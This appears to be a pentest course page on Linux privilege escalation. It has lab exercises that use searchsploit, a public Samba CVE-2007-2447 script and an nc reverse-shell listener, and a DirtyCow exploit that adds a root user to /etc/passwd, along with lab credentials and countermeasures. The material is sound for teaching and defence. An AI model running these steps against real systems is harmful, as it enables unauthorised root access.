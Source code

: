 
# Exploit
An exploit (from the English verb to exploit, meaning "to use something to one’s own advantage") is a piece of software, a chunk of data, or a sequence of commands that takes advantage of a bug or vulnerability to cause unintended or unanticipated behavior to occur on computer software, hardware, or something electronic (usually computerized).[1] Such behavior frequently includes things like gaining control of a computer system, allowing privilege escalation, or a denial-of-service (DoS or related DDoS) attack.

## Service exploit
As you know, a computer has services running in the background (Samba, MySQL, Apache,...) All these services are likely to have a vulnerability. It is better to try to exploit these services first before trying to exploit a kernel vulnerability.

First of all it is necessary to know under which user the service in question is launched. It is necessary that the account that ran the service has privileges higher than those you already have.

You can see this by running the "ps" command. Another information that can be obtained is the PID of the process. 

```bash
┌──(kali㉿kali)-[~]
└─$ ps -aux | grep root  
root           1  0.0  0.2 166264 11504 ?        Ss   Jul28   0:03 /sbin/init splash
root           2  0.0  0.0      0     0 ?        S    Jul28   0:00 [kthreadd]
root           3  0.0  0.0      0     0 ?        I<   Jul28   0:00 [rcu_gp]
root           4  0.0  0.0      0     0 ?        I<   Jul28   0:00 [rcu_par_gp]
root           6  0.0  0.0      0     0 ?        I<   Jul28   0:00 [kworker/0:0H-events_highpri]
root           9  0.0  0.0      0     0 ?        I<   Jul28   0:00 [mm_percpu_wq]

...

root      4596  0.0  0.0   5396  1272 ?        Ss   Jun21   1:14 /usr/sbin/nmbd -D
root      4598  0.0  0.0   7724  1704 ?        Ss   Jun21   0:00 /usr/sbin/smbd -D
root      4603  0.0  0.0   7724   808 ?        S    Jun21   0:00 /usr/sbin/smbd -D
```
Here we can see that the samba service is running as root.

You can get the version of by doing the command ``smbd --version`` 

````bash
alice@metasploitable:~$ smbd --version
Version 3.0.20-Debian
````
Search in searchsploit with the term samba 3.0.20

````
┌──(kali㉿kali)-[~/pentest/]
└─$ searchsploit Samba 3.0.20 
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                            | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)  | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                             | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                             | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                     | linux_x86/dos/36741.py
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
````

We can see that this vulnerability (CVE-2007-2447) allows in this case to have access to the root account.

> Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit) 

**Countermeasures :**  
Never run a service as root unless it is really necessary, especially web, database and file servers.

---- 

**Exercise :**
- IP : 10.12.1.36
- ID : alice
- PASSWORD : alice

Connect to 10.11.1.36 with alice account.

- What is the samba version  ? 

    > Version 3.0.20-Debian
    
- On your kali machine, download this script : https://github.com/amriunix/CVE-2007-2447
- Execute on your kali machine with those parameters :
    - RHOST = Remote Host - Victim ip
    - RPORT = Remote Port - port of samba
    - LHOST = The local ip
    - LPORT -- The loical port

- Execute a listener on your kali machine

And BIM!

###STEPS 
----

###ENUMERATION

	nmap -n -sS -A -T4 10.12.1.36
	
	Samba Port : 139 and 445
	
###Installation

	sudo apt install python python-pip
	pip install --user pysmb
	git clone https://github.com/amriunix/CVE-2007-2447.git
	
	
###Usage
	python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
	
	nc -nlvp 443		
	
![](assets/Exploit.png)	

## Kernel Exploit
Kernel exploits are programs that exploit kernel vulnerabilities to execute arbitrary code with elevated permissions. Successful kernel exploits typically give attackers superuser access to target systems in the form of a root command prompt. In many cases, going root on a Linux system is as simple as downloading a kernel exploit onto the target file system, compiling the exploit, and then executing it.

Assuming we can execute code as an unprivileged user, this is the generic workflow of a kernel exploit.

1. Prompts the kernel to execute our payload in kernel mode
2. Manipulate kernel data, e.g. process privileges
3. Launch a shell with new Get root! privileges.

Consider that for a kernel exploitation attack to succeed, an adversary requires four conditions:

1. A vulnerable kernel
2. A matching exploit
3. The ability to transfer the exploit to the target
4. The ability to execute the exploit on the target

The easiest way to defend against kernel exploits is to keep the kernel patched and updated. In the absence of patches, administrators can strongly influence the ability to transfer and execute the exploit on the target. Given these considerations, kernel exploit attacks are no longer viable if an administrator can prevent the introduction and/or execution of the exploit on the Linux file system. Therefore, administrators should focus on restricting or removing programs that allow file transfers, such as FTP, TFTP, SCP, wget and curl. When these programs are required, their use should be restricted to specific users, directories, applications (such as SCP) and IP addresses or domains.

The infamous DirtyCow exploit - Linux Kernel <= 3.19.0-73.8

A race condition was found in the way the Linux kernel memory subsystem handled copy-on-write (COW) breakage of private read-only memory mappings. An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system. This was one of the most serious privilege escalation vulnerabilities ever discovered and affected almost all major Linux distributions.

You can see more variants of dirtycow exploits here - https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs

There are many local privilege escalation exploits publicly available for different kernels and operating systems. The possibility of gaining root access on a Linux host using a kernel exploit depends on whether the kernel is vulnerable or not. Kali Linux has a local copy of the exploit-db exploits that make it easy to find local root exploits. Although I do not suggest relying entirely on this database when searching for Linux kernel exploits.

```
searchsploit Linux Kernel 2.6.24 - It shows us all available exploits for a particular Linux kernel that are already present in kali Linux.
```

Why should you avoid running any local privilege escalation exploit in the first place?
However, it is very tempting to simply run an exploit and gain root access, but you should always keep that as your last option.

1. The remote host may crash as many publicly available root exploits are not very stable.
2. You could become root and then crash the box.
3. The exploit may leave traces/logs that can get you caught.

You should always try the other techniques for getting root that have been discussed below before jumping straight to running a local root exploit.

**Countermeasures :**
- Keep the kernel patched and updated.

----
**Exercise :**
- IP : 10.12.1.36
- ID : alice
- PASSWORD : alice

Connect to 10.12.1.36 with alice account.

- What is the kernel version  ? 
    > Linux version 2.6.24-16-server

- Look in searchsploit if the kernel is vulnerable ? If or how many are?
    > Your answer
    
    ![](assets/kernel.png)

- Download the dirtycow exploit from here : https://www.exploit-db.com/exploits/40839/

- Compiled and executed. It replaces the user 'root' with a new user 'rash' by editing the file /etc/passwd.

![](assets/dirtycow.png)

And BIM !

---- 



